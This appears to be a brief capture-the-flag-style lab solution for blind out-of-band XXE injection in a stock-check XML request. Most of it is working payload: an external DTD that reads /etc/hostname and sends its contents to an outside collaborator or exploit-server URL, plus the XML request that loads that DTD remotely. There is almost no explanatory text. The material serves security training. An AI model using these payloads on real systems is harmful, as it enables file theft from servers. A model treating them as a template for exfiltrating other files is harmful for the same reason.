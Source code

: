 Target Goal - Exploit XXE injection to ex-filtrate the content of the /etc/hostname file.

Analysis:

Burp Collaborator
------------------

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://8bkjkzuczie7f8yiooilk6010s6iu7.oastify.com/?X=%file;'>">
%eval;
%exfil;

Without Burp Collaborator
-------------------------

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'https://exploit-0a36000204174338c4c637de0106008f.exploit-server.net/?X=%file;'>">
%eval;
%exfil;

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [<!ENTITY % xxe SYSTEM "https://exploit-0a36000204174338c4c637de0106008f.exploit-server.net/exploit"> %xxe;]>

<stockCheck>
	<productId>
	1
	</productId>
	<storeId>
	1
	</storeId>
</stockCheck>
```